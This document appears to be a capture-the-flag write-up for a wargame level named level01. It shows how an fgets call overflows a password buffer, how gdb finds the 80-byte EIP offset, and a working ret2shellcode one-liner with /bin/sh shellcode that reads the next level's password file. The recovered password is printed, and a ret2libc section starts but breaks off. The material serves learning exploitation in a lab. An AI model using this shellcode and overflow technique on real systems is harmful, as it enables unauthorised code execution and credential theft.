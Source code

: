 ```shell

Enter Password:
admin
nope, incorrect password...

1
```
`fgets()` reads in at most one less than 100 bytes from `stdin` and stores the input into the 64-bytes buffer `user_pass`. Which is 36 bytes more than allocated buffer. It means that `user_pass` variable can be overflowed and the value of `EIP` can be overwritten.
```nams
   0x0804855c <+140>:   mov    eax,ds:0x804a020          // eax = stdin
=> 0x08048561 <+145>:   mov    DWORD PTR [esp+0x8],eax   // stdin);
   0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64  // 100, stdin);
   0x0804856d <+157>:   lea    eax,[esp+0x1c]            // eax = user_pass
   0x08048571 <+161>:   mov    DWORD PTR [esp],eax       // user_pass, 100, stdin);
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>     // fgets(user_pass, 100, stdin);
```

To find offset, generate a string of 100 bytes legth using [BOEIPOSG](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/).
```nasm
(gdb) start
Temporary breakpoint 1 at 0x80484d5
Starting program: /home/users/level01/level01

Temporary breakpoint 1, 0x080484d5 in main ()
(gdb) c
Continuing.
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Program exit on `EIP` value 0x37634136 which gives offset of 80 bytes.

## Exploit
### ret2shellcode
As `a_user_name` is defined with 100 bytes, a shell code can be placed after `dat_wil` and EIP overwritten to `a_user_name+7`.
```shell
level01@OverRide:~$ (python -c "import struct; print('dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\n' + 'A'*80 + struct.pack('I', 0x0804a047))"; echo 'cat /home/users/$(whoami)/.pass') | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
### ret2libc
```gdb
gdb-peda$ break *main+164
```
